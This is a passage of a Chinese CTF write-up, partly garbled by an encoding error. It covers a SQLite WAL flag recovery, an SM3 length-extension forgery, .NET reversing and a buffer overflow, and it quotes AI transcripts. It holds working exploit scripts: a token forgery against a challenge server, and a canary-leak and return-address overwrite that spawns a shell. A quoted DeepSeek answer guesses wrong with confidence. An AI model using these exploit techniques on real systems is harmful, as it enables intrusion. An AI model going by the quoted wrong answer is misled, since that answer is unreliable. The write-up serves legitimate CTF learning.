# 😀󠄶󠅕󠅕󠅜ó „ó …–ó …¢ó …•ó …•ó „ó …¤ó …Ÿó „ó …”ó …Ÿó …§ó …󠅜󠅟󠅑󠅔ó „ó …•ó …¦ó …•ó …¢ó …©ó …¤ó …˜ó …™ó …ó …—ó „œó „ó …©ó …Ÿó …¥ó „ó …”ó …Ÿó …ó „—ó …¤ó „ó …ó …•ó …•ó …”ó „ó …‘ó …ó …©ó „ó …£ó …“ó …‘ó …ó …ó …™ó …ó …—ó „󠅤󠅟󠅟󠅜󠅣󠄜ó „ó …¤ó …˜ó …•ó „󠅖󠅜󠅑󠅗ó „󠅙󠅣󠄘󠅟󠅢ó „ó …ó …‘ó …©ó …’ó …•ó „ó …§ó …‘ó …£ó „™ó „ó …™ó …ó „ó …¤ó …˜ó …•ó „󠅔󠅒󠄪󠄙
app.mount("/", StaticFiles(directory="."), name="src")

if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=5000)
```

The database file contains a table and data.

```sql
CREATE TABLE flags (
    [0ops] TEXT,
    CONSTRAINT [0ops] UNIQUE (
        [0ops]
    )
);
```

Data in it starts like a flag but it is random letter garbage.

```
p1mm{W1M_wDAXgF7DIU}
dOU3{o20SlYkoL6L35r}
VjjZ{VqDAFLVee3vfpo}
2tHx{tJ407Ky_usJQog}
3EVv{pogEw413vyQIho}
6Xim{M29B7b9q4MTDLn}
EMyp{e8J9vcbGbns5xL}
AEY3{qtOh_rTFIBr2q3}
lVNB{DXK0c5yzmEgcHc}
xn0d{tFl85eDUE1mqae}
... (2024 entries in total)
```

Where can the flag possibly be?

**Model**: This is an interesting CTF challenge that appears to be about recovering data that's being deleted. Let's analyze the key components:

1. **Database Behavior**:
   - The `/flag` endpoint retrieves flags from the database, adds a special emoji string, then immediately deletes all flags from the database.
   - It sets `PRAGMA journal_mode = OFF` before deletion, which disables the rollback journal (preventing undo operations).

2. **Flag Location Possibilities**:
   - The flag isn't in the initial database content (which is random garbage)
   - The most suspicious part is the emoji string that gets appended to the data before deletion: `"ğŸ‰ó „ ó …Ÿó … ó …£ó „œó „ó …¤ó …˜ó …•ó „󠅖󠅜󠅑󠅗ó „ó …™ó …£ó „ó …—ó …Ÿó …ó …•ó „ó …’ó …©ó „ó …ó …Ÿó …§ó „‘ó „ó …‚ó …•ó …£ó …¤ó …‘ó …¢ó …¤ó „ó …©ó …Ÿó …¥ó …¢ó „󠅓󠅘󠅑󠅜󠅜󠅕ó …ó …—ó …•ó „‘"`

3. **Unicode Analysis**:
   - The emoji string contains many Unicode control characters (variation selectors, tags, etc.) between the visible emoji
   - These could be hiding the actual flag through steganography

4. **Solution Approach**:
   - Extract the Unicode code points from the suspicious string
   - Look for hidden patterns or messages in the control characters
   - The flag is likely encoded within these Unicode control characters

Here's how to extract the flag:

1. The visible emoji "ğŸ‰" is followed by many invisible Unicode control characters
2. These control characters form a pattern that can be decoded to reveal the flag
3. The flag format suggests it starts with "0ops{"

When you extract and analyze the Unicode code points between the visible characters, you'll find the actual flag hidden in the control characters. The challenge is designed to make you look beyond the obvious database content and focus on the data that's briefly visible before deletion.

The flag is likely encoded in the variation selectors and other control characters between the emoji in that appended string. You'll need to write a script to extract and decode these Unicode code points to reveal the hidden flag.

Note: The exact extraction method would depend on how the flag was encoded in the Unicode control characters, but this is where you should focus your attention.

</blockquote>
</details>

AI能看è§äººç±»çœ‹ä¸è§çš„东西（哭笑ä¸å¾—）

就一定è¦ç”¨[最新最热的emoji编解ç å™¨](https://emoji.paulbutler.org/)å—

<dl lang=en>
<dt>👀<dd>Don't access this endpoint, or you will never get the flag!
<dt>ğŸ‰<dd>0ops, the flag is gone by now! Restart your challenge!
<dt>🥹<dd>The flag is gone now.
<dt>ğŸ˜<dd>Further lowering your chance of getting the flag by deleting all flags in the db.
<dt>🚀<dd>Increase IO performance
<dt>💀<dd>Delete all flags
<dt>😀<dd>Feel free to download everything, you don't need any scanning tools, the flag is(or maybe was) in the db:)
</dl>

很é—憾，注释里其å®æ²¡ä¸œè¥¿ã€‚

比较奇怪的是特地把journal关了，删除日志里应该也没东西啊……
哦，在创建日志里。/flag端点真正的目的其å®æ˜¯ä¸ºäº†æŠŠæ—¥å¿—文件删æ‰ã€‚
在创建容器åç«‹å³ä¸‹è½½challenge.db-wal，全文æœç´¢`0ops{`å³å¾—。

ä¸çŸ¥é“为什么这题åšå‡ºçš„人这么少 🤔

## Notes (SM3)

能和我打一辈å­CTFå—？

给定`⟨secret hex⟩.penguins.tomo0.GO`的SM3散列，计算`⟨secret hex⟩.penguins.tomo0.⟨anything⟩.CRYCRY`的SM3散列。

anythingå¯ä»¥æ˜¯`GO`，但光这样是算ä¸å‡ºçš„。DeepSeek自我怀疑了å分钟。

<details lang=en>
<summary>DeepSeek-R1</summary>
<blockquote>

**User**: This is a CTF challenge.

```python
import asyncio
from contextlib import asynccontextmanager
import os
import random
from fastapi import FastAPI, Request
from fastapi.responses import JSONResponse, FileResponse, RedirectResponse
from gmssl import sm3
from gmssl.func import bytes_to_list
import base64
import uvicorn

secret = os.urandom(random.randint(10,20))
systemuser = "tomo0"
systempwd = "penguins"
notes = {
    "GO": "GO.txt",
    "CRYCRY": "CRYCRY.txt",
}


@asynccontextmanager
async def lifespan(app: FastAPI):
    asyncio.create_task(rotate_secret())
    yield


app = FastAPI(lifespan=lifespan, docs_url=None, redoc_url=None, openapi_url=None)


async def rotate_secret():
    while True:
        # Rotate secret in a short time, don't try to brute force it
        await asyncio.sleep(10)
        global secret
        # Very secure secret with random length
        secret = os.urandom(random.randint(10, 20))


def b64_encode(value: str) -> str:
    encoded = base64.urlsafe_b64encode(str.encode(value, "latin1"))
    result = encoded.rstrip(b"=")
    return result.decode("latin1")


def b64_decode(value: str) -> str:
    padding = 4 - (len(value) % 4)
    value = value + ("=" * padding)
    result = base64.urlsafe_b64decode(value)
    return result.decode("latin1")


def sign_token(username: str, password: str, org: str) -> str:
    payload = f"{username}.{org}"
    params = [secret.hex(), password, payload]
    payload_to_sign = ".".join(params)
    # We proudly use Chinese national standard SM3 to sign our token
    signature = sm3.sm3_hash(bytes_to_list(payload_to_sign.encode()))
    print("Issued:", signature, "for", payload_to_sign)
    lst = [payload, signature]
    ret = ".".join([b64_encode(x) for x in lst])
    return ret


def verify_token(token: str):
    assert token.count(".") == 1
    payload, signature = token.split(".")
    payload = b64_decode(payload)
    signature = b64_decode(signature)
    params = [secret.hex(), systempwd, payload]
    payload_to_sign = ".".join(params)
    if sm3.sm3_hash(bytes_to_list(payload_to_sign.encode("latin1"))) != signature:
        raise Exception("Invalid sign, maybe expired")
    try:
        params = payload.split(".")
        username = params[0]
        org = params[-1]
        assert isinstance(username, str)
        assert isinstance(org, str)
    except Exception as e:
        raise Exception("Invalid payload")
    return {"username": username, "org": org}


@app.get("/")
async def index():
    return FileResponse("index.html")


@app.get("/source")
async def view_source():
    return FileResponse("app.py")


@app.get("/note")
async def view_note(request: Request):
    token = request.query_params.get("token")
    if not token:
        return JSONResponse(
            content={"message": "Authorization required"}, status_code=401
        )
    try:
        payload = verify_token(token)

    except Exception as e:
        return JSONResponse(
            content={"error": "Invalid Authorization", "detail": str(e)},
            status_code=401,
        )
    if payload.get("username") != systemuser:
        return JSONResponse(
            content={"error": f"Only {systemuser} can access this note"}, status_code=401
        )
    org = payload.get("org")
    if org not in notes:
        return JSONResponse(
            content={"error": "Who are u?"}, status_code=403
        )
    # You can't download the note directly!
    return FileResponse(notes[org])


@app.post("/login")
async def login(request: Request):
    data = await request.form()
    username: str = data.get("username")
    password: str = data.get("password")
    if not username or not password:
        return JSONResponse(
            content={"message": "Username and password required"}, status_code=400
        )
    if username == systemuser and password == systempwd:
        token = sign_token(username, password, "GO")
        return RedirectResponse(url="/note?token=" + token, status_code=302)
    else:
        return JSONResponse(
            content={"message": "Invalid username or password"}, status_code=401
        )


if __name__ == "__main__":
    uvicorn.run(app, host="0.0.0.0", port=5000)
```

The function sm3 in gmssl is a hash function. It is defined as follows.

```python
import binascii
from math import ceil

rotl = lambda x, n:((x << n) & 0xffffffff) | ((x >> (32 - n)) & 0xffffffff)

IV = [
    1937774191, 1226093241, 388252375, 3666478592,
    2842636476, 372324522, 3817729613, 2969243214,
]

T_j = [
    2043430169, 2043430169, 2043430169, 2043430169, 2043430169, 2043430169,
    2043430169, 2043430169, 2043430169, 2043430169, 2043430169, 2043430169,
    2043430169, 2043430169, 2043430169, 2043430169, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042, 2055708042, 2055708042,
    2055708042, 2055708042, 2055708042, 2055708042
]

def sm3_ff_j(x, y, z, j):
    if 0 <= j and j < 16:
        ret = x ^ y ^ z
    elif 16 <= j and j < 64:
        ret = (x & y) | (x & z) | (y & z)
    return ret

def sm3_gg_j(x, y, z, j):
    if 0 <= j and j < 16:
        ret = x ^ y ^ z
    elif 16 <= j and j < 64:
        #ret = (X | Y) & ((2 ** 32 - 1 - X) | Z)
        ret = (x & y) | ((~ x) & z)
    return ret

def sm3_p_0(x):
    return x ^ (rotl(x, 9 % 32)) ^ (rotl(x, 17 % 32))

def sm3_p_1(x):
    return x ^ (rotl(x, 15 % 32)) ^ (rotl(x, 23 % 32))

def sm3_cf(v_i, b_i):
    w = []
    for i in range(16):
        weight = 0x1000000
        data = 0
        for k in range(i*4,(i+1)*4):
            data = data + b_i[k]*weight
            weight = int(weight/0x100)
        w.append(data)

    for j in range(16, 68):
        w.append(0)
        w[j] = sm3_p_1(w[j-16] ^ w[j-9] ^ (rotl(w[j-3], 15 % 32))) ^ (rotl(w[j-13], 7 % 32)) ^ w[j-6]
        str1 = "%08x" % w[j]
    w_1 = []
    for j in range(0, 64):
        w_1.append(0)
        w_1[j] = w[j] ^ w[j+4]
        str1 = "%08x" % w_1[j]

    a, b, c, d, e, f, g, h = v_i

    for j in range(0, 64):
        ss_1 = rotl(
            ((rotl(a, 12 % 32)) +
            e +
            (rotl(T_j[j], j % 32))) & 0xffffffff, 7 % 32
        )
        ss_2 = ss_1 ^ (rotl(a, 12 % 32))
        tt_1 = (sm3_ff_j(a, b, c, j) + d + ss_2 + w_1[j]) & 0xffffffff
        tt_2 = (sm3_gg_j(e, f, g, j) + h + ss_1 + w[j]) & 0xffffffff
        d = c
        c = rotl(b, 9 % 32)
        b = a
        a = tt_1
        h = g
        g = rotl(f, 19 % 32)
        f = e
        e = sm3_p_0(tt_2)

        a, b, c, d, e, f, g, h = map(
            lambda x:x & 0xFFFFFFFF ,[a, b, c, d, e, f, g, h])

    v_j = [a, b, c, d, e, f, g, h]
    return [v_j[i] ^ v_i[i] for i in range(8)]

def sm3_hash(msg):
    # print(msg)
    len1 = len(msg)
    reserve1 = len1 % 64
    msg.append(0x80)
    reserve1 = reserve1 + 1
    # 56-64, add 64 byte
    range_end = 56
    if reserve1 > range_end:
        range_end = range_end + 64

    for i in range(reserve1, range_end):
        msg.append(0x00)

    bit_length = (len1) * 8
    bit_length_str = [bit_length % 0x100]
    for i in range(7):
        bit_length = int(bit_length / 0x100)
        bit_length_str.append(bit_length % 0x100)
    for i in range(8):
        msg.append(bit_length_str[7-i])
    print(msg)
    group_count = round(len(msg) / 64)

    B = []
    for i in range(0, group_count):
        B.append(msg[i*64:(i+1)*64])

    V = []
    V.append(IV)
    for i in range(0, group_count):
        V.append(sm3_cf(V[i], B[i]))

    y = V[i+1]
    result = ""
    for i in y:
        result = '%s%08x' % (result, i)
    return result
```

The flag is in CRYCRY.txt.

**Model**: [Thinking…] SM3 is a Merkle-Damgard hash function, which might be vulnerable to length extension attacks. […] If we can create a new message M' = M + pad + extension, where pad is the padding added by SM3 for the original message length. Then, the hash of M' can be computed if we know H(M), the original message length, and the extension.

</blockquote>
</details>

anythingå¯ä»¥æ˜¯padding，其中åŸæ¶ˆæ¯é•¿åº¦å¯ä»¥æšä¸¾ï¼Œæˆ‘寻æ€æ²¡é—®é¢˜ã€‚

但gmsslæºç å†™å¾—一å¨å±ï¼Œå–‚ç»™DS也没能æˆåŠŸäº§ç”Ÿåˆ©ç”¨ç¨‹åºï¼Œæˆ‘怀疑å¯èƒ½å¤ªå±çš„代ç å·²ç»å¹²æ‰°LLMçš„æ€ç»´äº†ã€‚

secret如æœæ¯”较长的è¯ï¼ŒåŸæ¶ˆæ¯é•¿åº¦ä¼šè¶…过一个å—，但åªè¦å¤šç­‰ç­‰é‡è¯•å‡ æ¬¡å°±è¡Œäº†ï¼Œä¸ç®¡äº†ã€‚

```python
from gmssl.sm3 import IV, sm3_cf
import requests
import base64

def sm3(msg: bytes):
    V = IV
    for i in range(len(msg) // 64):
        V = sm3_cf(V, msg[i * 64 : (i + 1) * 64])
    return "".join("%08x" % i for i in V)

url = "http://1145141919810aaa.instance.penguin.0ops.sjtu.cn:18080/"

def b64_encode(value: str) -> str:
    encoded = base64.urlsafe_b64encode(str.encode(value, "latin1"))
    result = encoded.rstrip(b"=")
    return result.decode("latin1")

def b64_decode(value: str) -> str:
    padding = 4 - (len(value) % 4)
    value = value + ("=" * padding)
    result = base64.urlsafe_b64decode(value)
    return result.decode("latin1")

signature = b64_decode(requests.post(url + "login",
    {"username": "tomo0", "password": "penguins"}).url.split(".")[-1])

for n in range(10, 20):
    original_len = (n * 2 + 18) * 8
    new_payload = ("tomo0.GO\x80" + "\0" * (43 - n * 2)
        + chr(original_len >> 8) + chr(original_len & 0xFF))
    assert len("??" * n + ".penguins." + new_payload) == 64
    new_payload += ".CRYCRY"
    new_signature = "".join("%08x" % i for i in sm3_cf(
        [int(signature[i * 8 : i * 8 + 8], 16) for i in range(8)],
        list(b".CRYCRY\x80" + b"\0" * 54 + b"\2\x38"),
    ))
    print(requests.get(
        url + "note",
        {"token": b64_encode(new_payload) + "." + b64_encode(new_signature)},
    ).text)
```

## AreYouReady (.NET)

都打开IDA了æ‰å‘ç°æ˜¯ä¸ª7z自解å‹åŒ…，绑ç€ä¸€å †System.\*.dll表æ˜æ˜¯.NET程åºï¼Œå› æ­¤ç”¨ILSpy打开AreYouReady.dll。代ç ä½äºComposition类中。全文除了这个bit以外没有外部输入。

```csharp
	private int bit
	{
		get
		{
			if (!Debugger.IsAttached)
			{
				string? processPath = Environment.ProcessPath;
				if (processPath == null || processPath.EndsWith("AreYouReady.exe"))
				{
					return 1;
				}
			}
			return 0;
		}
	}
```

按字é¢æ„æ€ï¼Œéœ€è¦ä¸ä½¿ç”¨è°ƒè¯•å™¨å¹¶ä»¥AreYouReady.exe为åè¿è¡Œç¨‹åºï¼Œä½†å¥‡æ€ªçš„是åŒå‡»æ‰“开自解å‹åŒ…默认就应满足æ¡ä»¶ï¼Œä¿®æ”¹æ–‡ä»¶å也没有带æ¥æ›´å¤šå˜åŒ–。

程åºå…¶ä½™éƒ¨åˆ†æ˜¯ä¸€äº›ç®—术和逻辑è¿ç®—。我怀疑正解涉åŠåœ¨ç¨‹åºè¿è¡Œæ—¶åŠ¨æ€è¿æ¥å’Œæ–­å¼€è°ƒè¯•å™¨ï¼Œäºæ˜¯æŠŠè®¡ç®—程åºç”¨Pythonå¤åˆ»å‡ºæ¥ã€‚

```python
STARTED = 1
PROCEDING = 2
FINISHED = 3
PRELUDE = 1
SOLO1 = 2
DUET1 = 3
TRIO1 = 4
SOLO2 = 5
DUET2 = 6
TRIO2 = 7
FINALE = 8

def Piano(key: int, value: int):
    s[0], s[1] = s[1], s[0]

def Guitar(key: int, value: int):
    s[1], s[2] = s[2], (s[1] + s[2]) & 0xffffffff

def Violin(key: int, value: int):
    s[2], s[3] = s[3], (s[2] - s[3]) & 0xffffffff

def Cello(key: int, value: int):
    s[3], s[4] = s[4], s[3] ^ s[4]

def Drum(key: int, value: int):
    s[4], s[5] = s[5], ~(s[4] ^ s[5]) & 0xffffffff

def Flute(key: int, value: int):
    s[5], s[6] = s[6], ((s[5] << key) | (s[5] >> 32 - key)) & 0xffffffff

def Harp(key: int, value: int):
    s[6], s[0] = s[0], ((s[6] << value) | (s[6] >> 32 - value)) & 0xffffffff

def Saxophone(key: int, value: int):
    global s
    s = s[1:] + s[:1]

def GetHash(P_0: int, P_1: int):
    global secret
    secret = (secret + (P_0 << P_1) - (P_1 << P_0)) ^ (secret >> bit)
    return secret

def GoOn(P_0: int, P_1: int):
    instruments[GetHash(P_0, P_1) % len(instruments)](P_0, P_1)

instruments = [Piano, Guitar, Saxophone, Violin, Cello, Drum, Flute, Harp]
bit = 1
s = [503508867, -744629298 & 0xffffffff, -794976596 & 0xffffffff, 1905074788,
    -1713215966 & 0xffffffff, 1240041635, -1999964094 & 0xffffffff]
secret = 424019476

GoOn(STARTED, PRELUDE)
GoOn(PROCEDING, PRELUDE)
GoOn(FINISHED, PRELUDE)
GoOn(STARTED, SOLO1)
GoOn(PROCEDING, SOLO1)
GoOn(FINISHED, SOLO1)
GoOn(STARTED, DUET1)
GoOn(PROCEDING, DUET1)
GoOn(FINISHED, DUET1)
GoOn(STARTED, TRIO1)
GoOn(PROCEDING, TRIO1)
GoOn(FINISHED, TRIO1)
GoOn(STARTED, SOLO2)
GoOn(PROCEDING, SOLO2)
GoOn(FINISHED, SOLO2)
GoOn(STARTED, DUET2)
GoOn(PROCEDING, DUET2)
GoOn(FINISHED, DUET2)
GoOn(STARTED, TRIO2)
GoOn(PROCEDING, TRIO2)
GoOn(FINISHED, TRIO2)
GoOn(STARTED, FINALE)
GoOn(PROCEDING, FINALE)
GoOn(FINISHED, FINALE)

print(b"".join((s[i] ^ (secret + i & 0xffffffff)).to_bytes(4, "little") for i in range(7)))
```

但置bitæ’为1就足够出答案了，也ä¸çŸ¥é“为什么直æ¥è¿è¡Œä¸è¡Œã€‚

程åºé‡Œè¿˜æœ‰å¾ˆå¤šéASCII字符，甚至有个方法åå«`Trỉo1`（注æ„ỉ上带钩），也ä¸çŸ¥é“是为什么。

## GuessMaster

å“è¿™ç§å¾ˆçƒ¦çš„è¦æ•°å移é‡çš„题æ€ä¹ˆåšçš„人还那么多啊 😾

<details lang=en>
<summary>Gemini 2.5 Pro Experimental 03-25</summary>
<blockquote>

**User**: This is a CTF challenge. The following C code is decompiled from a x64 Linux ELF binary `GuessMaster`.

```c
int offset = 10;

int __cdecl main(int argc, const char **argv, const char **envp) {
  int now; // eax
  int input; // [rsp+4h] [rbp-11Ch] BYREF
  int i; // [rsp+8h] [rbp-118h]
  int expected; // [rsp+Ch] [rbp-114h]
  char buf[256]; // [rsp+10h] [rbp-110h] BYREF
  unsigned __int64 v9; // [rsp+118h] [rbp-8h]
  v9 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  expected = 0;
  memset(buf, 0, sizeof(buf));
  now = time(0LL);
  srand(now + offset);
  puts("----- 你和我心çµç›¸é€šå—？ -----\n");
  for ( i = 0; i <= 99; ++i )
  {
    puts("我想的是多少？");
    expected = rand();
    __isoc99_scanf("%ud", &input);
    if ( expected != input )
    {
      printf("哦ä¸ï¼Œä¸æ˜¯è¿™ä¸ªï¼");
      return 0;
    }
  }
  getchar();
  puts("你和我真是天生一对ï¼å‘Šè¯‰æˆ‘你的愿望是什么å§ï¼");
  read(0, buf, 0x119uLL);
  printf("你的愿望是：%s。嗯……æ¢ä¸ªæ„¿æœ›ã€‚\n", buf);
  read(0, buf, 0x119uLL);
  printf("嗯……下次一定ï¼");
  return 0;
}

int wish() {
  return system("/bin/sh");
}
```

**Model**: [Thoughts snipped] Okay, let's break down this CTF challenge based on the provided C code.

**1. Understanding the Program Flow**

1.  **Initialization:** Sets up unbuffered I/O, initializes `expected` to 0, clears `buf`.
2.  **Seeding Randomness:** Seeds the pseudo-random number generator (PRNG) using `srand(time(0LL) + offset)`. `time(0LL)` gets the current Unix timestamp (seconds since epoch), and `offset` is globally defined as 10. So, the seed is `time() + 10`.
3.  **Guessing Game:** Enters a loop that runs 100 times (`i` from 0 to 99).
    *   Prompts the user ("我想的是多少？" - "What number am I thinking of?").
    *   Generates a random number using `rand()` and stores it in `expected`.
    *   Reads an unsigned integer from the user (`scanf("%ud", &input)`).
    *   Compares the user's input with the expected random number. If they don't match, the program prints an error ("哦ä¸ï¼Œä¸æ˜¯è¿™ä¸ªï¼" - "Oh no, not this one!") and exits.
4.  **Success & Vulnerable Reads:** If the user successfully guesses all 100 numbers:
    *   Prints a success message ("你和我真是天生一对ï¼å‘Šè¯‰æˆ‘你的愿望是什么å§ï¼" - "We are truly made for each other! Tell me what your wish is!").
    *   **First `read`:** Reads up to `0x119` (281) bytes into `buf`. `buf` is only 256 bytes (`char buf[256]`). **This is a buffer overflow vulnerability.**
    *   Prints the user's input ("你的愿望是：%s。嗯……æ¢ä¸ªæ„¿æœ›ã€‚\n" - "Your wish is: %s. Hmm... change your wish.").
    *   **Second `read`:** Reads up to `0x119` (281) bytes into the *same* buffer `buf` again. **This is another buffer overflow.**
    *   Prints a final message ("嗯……下次一定ï¼" - "Hmm... next time for sure!") and exits normally.
5.  **Hidden Function:** There's a function `wish()` which is *never called* by `main`. This function simply executes `system("/bin/sh")`, which would give a shell.

**2. Identifying the Vulnerabilities**

1.  **Predictable `rand()`:** The PRNG is seeded with `time(0) + 10`. `time(0)` has a resolution of 1 second. If we know roughly when the program started on the server (usually within a second or two of establishing the connection), we can predict the seed. By using the same seed locally (`srand(calculated_seed)`), we can generate the exact same sequence of 100 `rand()` numbers that the server expects.
2.  **Stack Buffer Overflow:** Both `read` calls after the guessing game read up to 281 bytes into `buf`, which is only 256 bytes long. This allows overwriting data on the stack beyond `buf`.
    *   `char buf[256]; // [rsp+10h] [rbp-110h]`
    *   `unsigned __int64 v9; // [rsp+118h] [rbp-8h]` (This is the stack canary, placed just before the saved RBP).
    *   The overflow (281 bytes starting at `rbp-110h`) reaches up to `rbp - 110h + 281 - 1 = rbp + 8`. This means the overflow covers:
        *   `buf` (256 bytes)
        *   Stack Canary (`v9`) (8 bytes)
        *   Saved RBP (8 bytes)
        *   Return Address (8 bytes)

**3. Exploitation Strategy**

The goal is to execute the `wish()` function.

1.  **Bypass the Guessing Game:**
    *   Write a helper script or program.
    *   When connecting to the remote server, get the current Unix timestamp (`t`).
    *   Assume the server's `time(0)` call happened at `t`, `t-1`, or `t+1` (a small window around the connection time).
    *   Calculate the potential seeds: `t+10`, `t-1+10`, `t+1+10`.
    *   For each seed, generate the first 100 `rand()` numbers (using the same libc `rand` implementation if possible, e.g., via Python `ctypes`).
    *   Connect to the server and try sending the generated sequence. If it fails, try the sequence from the next potential seed.

2.  **Leak the Stack Canary:**
    *   The first `read` happens *before* the first `printf`.
    *   We can use the first overflow to leak the canary.
    *   Send exactly 256 bytes of non-null characters (e.g., `b'A'*256`) for the *first* `read`. This fills `buf` precisely but doesn't overwrite the canary yet.
    *   The subsequent `printf("你的愿望是：%s...", buf)` will print the 256 'A's *and* continue printing whatever is on the stack immediately after `buf` until it hits a null byte. The first thing after `buf` is the stack canary (`v9`).
    *   Read the program's output and extract the 8 bytes immediately following the 256 'A's. This is the canary value.

3.  **Overwrite Return Address:**
    *   The program then performs the *second* `read` into `buf`.
    *   Now we construct a payload for this second read:
        *   Padding: 256 bytes (e.g., `b'B'*256`).
        *   Canary: The 8-byte canary value leaked in the previous step.
        *   Saved RBP: 8 bytes of dummy data (e.g., `b'C'*8`).
        *   Return Address: The 8-byte address of the `wish` function (obtained from the ELF binary using tools like `objdump`, `gdb`, or `readelf`).
    *   Send this payload (total length 256 + 8 + 8 + 8 = 280 bytes, which is within the `read` limit of 281).

4.  **Get the Shell:**
    *   The program executes the second `printf`.
    *   When `main` attempts to return, the stack canary check will pass (because we provided the correct value).
    *   The `ret` instruction will pop the address we supplied (the address of `wish`) into the instruction pointer (RIP).
    *   Execution jumps to `wish()`, which calls `system("/bin/sh")`.

**Required Information**

*   The `GuessMaster` ELF binary (to find the address of `wish`).
*   The libc version used on the server (usually not strictly necessary for `rand()` prediction but good to know; often guessable from the environment).

**Example (Conceptual Python with pwntools):**

```python
from pwn import *
import time
import ctypes

# Load the binary
elf = context.binary = ELF('./GuessMaster')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # Or determine remote libc
libc = ctypes.CDLL("libc.so.6") # Use local libc for rand()

# Connect to remote or local process
# p = process(elf.path)
p = remote('target.server.com', 1337)

# --- Guessing Game ---
current_time = int(time.time())
log.info(f"Local time: {current_time}")

# Try seeds around current time
for t_offset in range(-2, 3): # Check times t-2, t-1, t, t+1, t+2
    seed = current_time + t_offset + 10 # Server uses time() + 10
    log.info(f"Trying seed: {seed}")
    libc.srand(seed)
    guesses = [str(libc.rand()) for _ in range(100)]

    # Send guesses (need to handle interaction properly)
    try:
        p.recvuntil(b"-----\n\n")
        success = True
        for i in range(100):
            p.recvuntil(b"多少？\n") # "What number?"
            p.sendline(guesses[i].encode())
            # Check if we got the error message
            # Note: Simple check, might need adjustment based on exact output/timing
            line = p.recvline(timeout=0.5)
            if b'!' in line: # Assuming error message contains '!'
                log.warning(f"Seed {seed} failed on guess {i+1}")
                success = False
                # If process died, restart connection; otherwise just break inner loop
                # This part needs robust handling depending on server behavior
                p.close()
                p = remote('target.server.com', 1337) # Reconnect
                # Or p = process(elf.path)
                break

        if success:
            log.success(f"Correct seed found: {seed}")
            break # Exit the seed guessing loop
    except EOFError:
        log.warning(f"EOFError with seed {seed}, likely wrong. Reconnecting.")
        p.close()
        p = remote('target.server.com', 1337) # Reconnect
        # Or p = process(elf.path)
        continue # Try next seed
else: # No break occurred
    log.error("Could not find the correct seed!")
    exit()

# Consume the newline after last scanf
# p.recvuntil(b'?') # Wait for last prompt if necessary (adjust based on output)
# p.sendline(guesses[99].encode()) # Send last guess (if not done in loop)

# Wait for success message
p.recvuntil(b"å§ï¼\n") # "...what is your wish!"

# --- Leak Canary ---
payload_leak = b'A' * 256
log.info("Sending payload to leak canary...")
p.send(payload_leak) # First read

p.recvuntil(b"你的愿望是：") # "Your wish is:"
received = p.recvuntil(b"。嗯……æ¢ä¸ªæ„¿æœ›ã€‚") # Read until the next prompt part

# Extract canary (adjust index based on exact output)
leaked_data = received[len(payload_leak):-len(b"。嗯……æ¢ä¸ªæ„¿æœ›ã€‚")]
if len(leaked_data) < 8:
    log.error(f"Failed to leak enough data for canary. Leaked: {leaked_data}")
    exit()

canary = u64(leaked_data[:8])
log.success(f"Leaked canary: {hex(canary)}")

# --- Overwrite Return Address ---
padding = b'B' * 256
saved_rbp = b'C' * 8
wish_addr = p64(elf.symbols['wish']) # Get address of wish()

payload_exploit = padding + p64(canary) + saved_rbp + wish_addr
log.info("Sending exploit payload...")
p.send(payload_exploit) # Second read

# Should get a shell
p.interactive()
```

This provides a clear path to exploit the vulnerabilities found in the decompiled code. The main challenges are correctly predicting the `rand()` seed and carefully crafting the payloads to leak the canary and overwrite the return address.

</blockquote>
</details>

我刚刚æ‰çŸ¥é“那个一直è§åˆ°ä½†ä¸çŸ¥é“干嘛的`__readfsqword(0x28u)`å­¦åå«æ ˆé‡‘ä¸é›€ ~~沙地兽~~。Geminiçš„æ€è·¯å®Œå…¨æ­£ç¡®ï¼Œç»™å‡ºçš„代ç ä¹Ÿå‡ ä¹å·²ç»èƒ½ç”¨äº†ï¼Œä¸è¿‡å°é—®é¢˜è¿˜æ˜¯ä¸å°‘的。

猜éšæœºæ•°çš„部分我æ¥å†™çš„è¯è‚¯å®šå·æ‡’，ä¸ä¼šå¤šè¯•å‡ æ¬¡ï¼ŒLLM则ä¸é—余力地写了时间窗å£æšä¸¾ã€‚但试ç€è¿è¡Œäº†ä¸€ä¸‹å‘ç°ä¸å¯¹ã€‚虽然ä¸çŸ¥é“为什么，但是通过调试器得知，å˜é‡offsetè¿è¡Œæ—¶ä¼šä»åˆå§‹å€¼10å˜æˆ110。（æ¯æ¬¡éƒ½è¦é‡æ–°å­¦ä¸€éGDB的用法 😾

ç ´å栈的部分问题ä¸å°‘：

- 栈金ä¸é›€çš„首字节（最ä½ä½å­—节）固定为零，就是预防将其作为字符串打å°å‡ºæ¥ã€‚输入多一个字节，把这个零覆盖æ‰å°±å¯ä»¥æŠŠé‡‘ä¸é›€è¿åŒä¿å­˜çš„rbp打出æ¥äº†ã€‚

- å—ASLRå½±å“，无法预测覆写的返å›åœ°å€ã€‚打å°å‡ºçš„ä¿¡æ¯åœ¨ä¿å­˜çš„rbp处中断，ä»æ ˆåœ°å€ä¹Ÿå¾—ä¸åˆ°ç¨‹åºåœ°å€ã€‚注æ„到åŸè¿”å›åœ°å€åœ¨_start里是+0x1489，期望返å›åœ°å€æ”¹å†™ä¸ºwish = +0x1493，åªæœ‰æœ€ä½ä½å­—节有å˜åŒ–，最ä½ä½å­—节也ä¸å—ASLRå½±å“，因此åªéœ€è¦è¦†å†™é¦–字节，之å高ä½ä¿æŒä¸å˜ã€‚

```python
from pwn import *
import time
import ctypes

elf = context.binary = ELF('./GuessMaster')
libc = ctypes.CDLL("libc.so.6")
p = tube()
def reconnect():
    global p
    # p = process(elf.path)
    p = remote('instance.penguin.0ops.sjtu.cn', 11451)
reconnect()

# --- Guessing Game ---
current_time = int(time.time())
log.info(f"Local time: {current_time}")

for t_offset in 0, 1, -1, 2, -2:
    seed = current_time + t_offset + 110
    log.info(f"Trying seed: {seed}")
    libc.srand(seed)
    guesses = [str(libc.rand()).encode() for _ in range(100)]
